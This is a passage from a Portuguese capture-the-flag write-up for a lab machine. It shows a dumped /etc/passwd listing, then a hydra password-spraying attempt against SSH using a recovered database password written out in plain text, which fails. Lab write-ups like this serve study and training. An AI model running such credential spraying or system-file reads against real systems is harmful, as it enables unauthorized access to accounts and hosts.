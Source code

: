```bash
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
usbmux:x:111:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
sshd:x:112:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
think:x:1000:1000:,,,:/home/think:/bin/bash
fwupd-refresh:x:113:117:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
mysql:x:114:119:MySQL Server,,,:/nonexistent:/bin/false
xavi:x:1001:1001::/home/xavi:/bin/bash
diego:x:1002:1002::/home/diego:/bin/bash
gege:x:1003:1003::/home/gege:/bin/bash
ssm-user:x:1004:1006::/home/ssm-user:/bin/sh
ubuntu:x:1005:1008:Ubuntu:/home/ubuntu:/bin/bash
base64: invalid input
                                                                             
┌──(kali㉿kali)-[~/smol]
└─$ 

```

Do log acima, posso fazer um password spraying (utilizando a senha do banco) com os usuários gege, diego, think e xavi no SSH.

```bash
┌──(kali㉿kali)-[~/smol]
└─$ vim users.txt      
                                                                             
┌──(kali㉿kali)-[~/smol]
└─$ hydra -L users.txt -p 'kbLSF2Vop#lw3rjDZ629*Z%G' ssh://10.10.121.36
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-10-17 18:39:34
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 3 tasks per 1 server, overall 3 tasks, 3 login tries (l:3/p:1), ~1 try per task
[DATA] attacking ssh://10.10.121.36:22/
[ERROR] target ssh://10.10.121.36:22/ does not support password authentication (method reply 4).
                                                                             
┌──(kali㉿kali)-[~/smol]
└─$ 

```
